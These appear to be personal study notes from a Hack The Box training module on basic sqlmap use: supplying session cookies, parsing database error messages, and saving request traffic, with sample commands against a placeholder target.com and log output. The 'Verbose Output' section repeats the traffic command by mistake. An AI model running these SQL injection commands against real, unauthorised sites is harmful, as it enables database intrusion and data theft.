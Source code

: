 ```yaml
---
title: b-Basics
draft: false
tags:
  - sqlmap
---
```

## Custom SQLMap Requests

We can specify session cookie value using `--cookie`:

```shell-session
jadu101@htb[/htb]$ sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Same can be done using `-H` flag:

```shell-session
jadu101@htb[/htb]$ sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

## Handling Errors

### Display Error

Use `--parse-errors` to parse the DBMS errors and display them as part of the program run:

```shell-session
...SNIP...
[16:09:20] [INFO] testing if GET parameter 'id' is dynamic
[16:09:20] [INFO] GET parameter 'id' appears to be dynamic
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '))"',),)((' at line 1'"
[16:09:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''YzDZJELylInm' at line 1'
...SNIP...
```


### Store Traffic

The `-t` option stores the whole traffic content to an output file:

```shell-session
[!bash!]$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

### Verbose Output

```shell-session
[!bash!]$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

